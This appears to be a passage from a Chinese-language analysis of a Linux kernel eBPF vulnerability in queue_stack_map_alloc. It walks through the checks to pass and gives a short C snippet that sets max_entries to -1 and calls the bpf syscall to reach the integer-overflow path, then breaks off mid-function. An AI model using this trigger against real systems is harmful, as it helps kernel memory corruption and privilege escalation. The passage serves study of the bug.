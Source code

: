  

ps：网上的分析在这里讲的很模糊，直接一下就到了对于 `queue_stack_map_alloc` 的分析，我这里尽量讲详细一些，实际上如果你不调整 map type 是到达不了此处的。

 

总结一下想要到达漏洞函数的条件：

*   设置 attr->map_type 为 22
    
*   通过 map_alloc_check 的检查。
    
    *   此时是：
        
        ```
        /* Called from syscall */
        static int queue_stack_map_alloc_check(union bpf_attr *attr)
        {
          /* check sanity of attributes */
          if (attr->max_entries == 0 || attr->key_size != 0 ||
              attr->map_flags & ~QUEUE_STACK_CREATE_FLAG_MASK)
              return -EINVAL;
         
          if (attr->value_size > KMALLOC_MAX_SIZE)
              /* if value_size is bigger, the user space won't be able to
               * access the elements.
               */
              return -E2BIG;
         
          return 0;    //要到达这里
        }
        
        ```
        
*   attr->map_ifindex 为空。
    

比如我们按照如下设置：

```
union bpf_attr *attr;
attr->map_type = BPF_MAP_TYPE_QUEUE;    //BPF_MAP_TYPE_QUEUE
attr->max_entries = -1;
attr->map_flags = 0;
attr->value_size = 0x20;
int ret = syscall(__NR_bpf,0,attr,0x30);

```

就可以正常到达 `queue_stack_map_alloc`

### queue_stack_map_alloc

```
static struct bpf_map *queue_stack_map_alloc(union bpf_attr *attr)
{
    int ret, numa_node = bpf_map_attr_numa_node(attr);
    struct bpf_queue_stack *qs;
    u32 size, value_size;
    u64 queue_size, cost;
 
    size = attr->max_entries + 1;
    value_size = attr->value_size;
 
    queue_size = sizeof(*qs) + (u64) value_size * size;
 
    cost = queue_size;
    if (cost >= U32_MAX - PAGE_SIZE)
        return ERR_PTR(-E2BIG);
 
    cost = round_up(cost, PAGE_SIZE) >> PAGE_SHIFT;
 
```